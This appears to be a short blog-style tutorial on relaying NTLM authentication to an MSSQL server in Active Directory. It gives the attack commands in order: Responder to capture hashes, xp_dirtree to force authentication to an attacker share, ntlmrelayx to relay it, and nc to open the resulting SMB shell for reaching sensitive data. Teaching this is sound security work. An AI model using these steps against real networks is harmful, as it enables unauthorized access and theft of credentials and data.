

## Entry
NTLM relay is a classic attack technique that allows an attacker to impersonate users by relaying their NTLM authentication to another service. When services like MSSQL are misconfigured and accept NTLM authentication without signing, they become ideal targets. In this post, we'll explore how to relay NTLM credentials to an MSSQL server to gain code execution or escalate privileges in an Active Directory environment.

## Enumerate
>Before start we have to sure if we have **relay authentication**
{: .prompt-tip}

Coomands to execute:
```sh
sudo responder -I tun0
xp_dirtree \\<ip>\<anything>
```


We can ping but if its not crackable what we can do? thats the problem and main topic of this blog.



Okey nice lets go ntlm_relay stuff.

## Attack

To abuse this protocol we will use **ntlmrelayx**, **mssqclient** and **nc** for interactive shell.

| Tool             | Purpose                                                            |
| ---------------- | ------------------------------------------------------------------ |
| `ntlmrelayx.py`  | Relays captured NTLM authentication to target services like MSSQL. |
| `mssqlclient.py` | Connects to MSSQL servers to run SQL commands and enable features. |
| `nc` (Netcat)    | Creates a interactive shell     |

Lets start by running **ntlmrelayx** with `-smb2support` option. targeting to mssql service of hosts

Command to execute:
```sh
ntlmrelayx.py -smb2support -tf hosts.txt -i
```

And now we can relay with mssql

Command to execute:
```sh
xp_dirtree \\<ip>\relay
```


>It should start interactive shell otherwise u are doing something wrong. (Started interactive SMB client shell via TCP on 127.0.0.1:11000)
{: .prompt-tip}

now we can use `nc 127.0.0.1:11000` for connect interactive smb client.


Now we can access sensitive datas.
